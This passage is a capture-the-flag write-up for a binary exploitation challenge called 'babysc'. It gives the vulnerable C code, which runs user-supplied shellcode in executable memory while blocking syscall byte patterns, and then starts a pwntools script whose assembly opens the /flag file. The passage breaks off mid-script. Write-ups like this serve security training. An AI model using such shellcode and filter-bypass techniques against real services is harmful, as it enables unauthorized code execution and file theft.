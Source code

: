 shellcode

`34.133.69.112 port 10001`

### 3.2 Category

PWN

### 3.3 Attachments

- babysc
- babysc.c
- Dockerfile

### 3.4 Solution

1. Inspect `babysc.c`:

   ```c
   void vuln(){
     // some code
     shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);

      puts("Enter 0x1000");
      shellcode_size = read(0, shellcode, 0x1000);
     for (int i = 0; i < shellcode_size; i++)
     {
       uint16_t *scw = (uint16_t *)((uint8_t *)shellcode + i);
       if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f)
       {
         printf("Bad Byte at %d!\n", i);
         exit(1);
       }
     }
     puts("Executing shellcode!\n");
      ((void(*)())shellcode)();
   }
   ```

2. Based on observation, shellcode is written to a memory segment that allows write, read and execution. However, bytes related to `syscall`s are not allowed.
3. Based on Dockerfile, the flag resides on `/flag`. The user running `babysc` process may not have the right permissions to read the file.
4. For sanity check, the `syscall` byte checks are removed and compiled again with the same security flags. The permissions are also ignored.
5. Forge a script to pass shellcode to the modified executable:

   ```py
   #!/usr/bin/env python3
   from pwn import *

   context.arch = "amd64"
   context.log_level = "DEBUG"

   exe = "./babysc_no_syscall_check"
   elf = context.binary = ELF(exe, checksec=True)
   conn = process(exe)

   shellcode = asm("""
   mov rax, 0x2
   lea rdi, [rip + path]
   xor esi, esi
   xor edx, edx
   syscall

   mov rdi, rax
   ```